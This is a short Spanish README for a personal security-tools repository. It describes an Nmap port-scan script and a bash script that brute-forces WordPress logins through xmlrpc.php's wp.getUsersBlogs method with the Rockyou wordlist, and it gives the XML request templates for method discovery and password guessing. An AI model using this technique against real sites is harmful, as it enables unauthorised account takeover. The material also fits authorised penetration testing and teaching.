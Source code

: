 # Herramientas
Repositorio de scripts/herramientas para diversas funciones 

## Archivos

- **scan.nse:** Script básico para escaneo hecho en Lua para Nmap. Enumera puertos abiertos por TCP.
- **xmlrpc_bf:** Script en bash para enumerar credenciales válidas en Wordpress a través del archivo xmlrpc.php mediante fuerza bruta por medio del método "wp.getUsersBlogs".  Previamente hay que comprobar si dicho archivo está expuesto y el método está disponible y tener nombres de usuario potencialmente válidos. Para enumerar los métodos disponibles, se puede hacer una petición POST a dicho recurso mediante un archivo con una estructura XML como la siguiente:
  
```
<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```
Este script hace uso del diccionario Rockyou. La siguiente estructura es que la se usará para realizar el ataque:

```
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>user</value></param> 
<param><value>password</value></param> 
</params> 
</methodCall>
```
Si alguna contraseña coincide con el usuario dado se mostrará en la terminal.

